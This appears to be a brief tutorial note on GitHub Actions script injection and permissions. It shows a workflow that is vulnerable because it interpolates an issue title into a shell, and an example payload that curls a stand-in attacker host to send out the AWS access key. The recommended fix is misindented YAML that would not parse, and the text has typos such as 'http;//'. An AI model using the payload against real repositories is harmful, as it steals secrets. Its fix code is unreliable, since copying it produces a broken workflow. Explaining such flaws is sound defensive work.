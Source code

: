 # Security and Permissions

### Injection:

```yaml
 - name: Assign label
   run: |
      issue_title="${{ github.event.issue.title }}"
      if [[ "$issue_title" == *"bug"* ]]; then
      echo "Issue is about a bug!"
      else
      echo "Issue is not about a bug"
      fi
```


This code is vulnerable to script injection.
Formally, a malicious agent could do something like this:

`a";curl http;//my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`

and gain access to sensitive data, like the aws_access_key_id, which 
generally is stored in a repository secret.

The first way that comes to mind to avoid this 
situation is using a github actions, because the injection would never reach a shell.

If you must use your own comand is better to use an environment variable to store
your title.

```yaml
- name: Assign label
    env: 
      TITLE: ${{ github.event.issue.title }}
        run: |
          if [[ "$TITLE" == *"bug"* ]]; then
          echo "Issue is about a bug!"
          else
          echo "Issue is not about a bug"
          fi
```

## Permissions

Permissions are set at job level and they define the scopo
of the GITHUB_TOKEN
